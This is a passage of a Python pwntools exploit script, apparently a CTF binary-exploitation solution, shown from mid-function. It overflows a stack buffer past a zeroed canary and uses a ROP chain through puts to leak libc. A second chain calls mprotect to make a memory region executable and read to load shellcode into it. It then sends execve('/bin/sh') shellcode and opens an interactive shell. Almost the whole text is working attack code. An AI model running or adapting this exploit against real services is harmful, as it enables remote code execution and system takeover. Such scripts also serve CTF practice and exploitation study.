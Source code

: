 ``` python
    payload += b"\x00\x00\x00\x00"      # canary
    payload += b"BBBB"                  # sfp
    payload += p32(elf.plt['puts'])     # ret #1
    payload += p32(0x080485e4)          # ret #2 (pr gadget)
    payload += p32(elf.got['write'])    # argument #1
    payload += p32(elf.symbols['main']) # ret #3
    s.sendline(payload)
    r = s.recv(1024)
    libc = u32(r[0:4]) - lib.symbols["write"]
    mprotect = libc + lib.symbols['mprotect']
    read = libc + lib.symbols['read']
    log.info(f"libc : {hex(libc)}")
    log.info(f"mprotect : {hex(mprotect)}")
    log.info(f"read : {hex(read)}")

    # add permission using mprotect
    s.send(b"2" * 33)                   # overwrite fd
    s.recv(1024)

    payload = b"C" * 0x124              # dummy
    payload += b"\x00\x00\x00\x00"      # canary
    payload += b"DDDD"                  # sfp
    payload += p32(mprotect)            # ret #1
    payload += p32(0x08048836)          # ret #2 (pppr gadget)
    payload += p32(bp['canary_backup'] & 0xfffff000) # argument #1
    payload += p32(0x1000)              # argument #2
    payload += p32(0x7)                 # argument #3
    payload += p32(read)                # ret #3
    payload += p32(bp['canary_backup']) # ret #4
    payload += p32(0)                   # argument #1
    payload += p32(bp['canary_backup']) # argument #2
    payload += p32(0x100)               # argument #3
    s.sendline(payload)

    # send shellcode
    payload = asm(shellcraft.execve("/bin/sh", 0, 0))
    s.sendline(payload)

    s.interactive()

if __name__=='__main__':
    main()
```